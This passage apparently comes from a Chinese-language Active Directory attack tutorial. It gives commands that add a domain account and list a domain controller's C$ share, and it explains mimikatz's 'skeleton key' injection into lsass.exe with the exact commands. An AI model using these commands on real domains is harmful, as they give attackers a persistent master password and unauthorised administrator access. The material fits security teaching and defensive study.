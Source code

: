 [![image-20220517203151531.png](assets/1698894253-380a353115115ea09eba6eeeae430252.png)](https://storage.tttang.com/media/attachment/2022/06/17/cbd95149-830f-4e3a-b612-689b393574a6.png)

验证创建域管账号

```plain
net user test Qwe123... /add /domain
```

或者访问 DC 的共享文件夹

```plain
dir \\cyber.com\c$
```

### [misc 模块中的 skeleton skeleton key（万能钥匙）](#toc_miscskeleton-skeleton-key)

skeleton key 就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注入 所以 **重启会失效**

```plain
//提升权限
mimikatz # privilege::debug
//注入 skeleton key
mimikatz # misc::skeleton
```
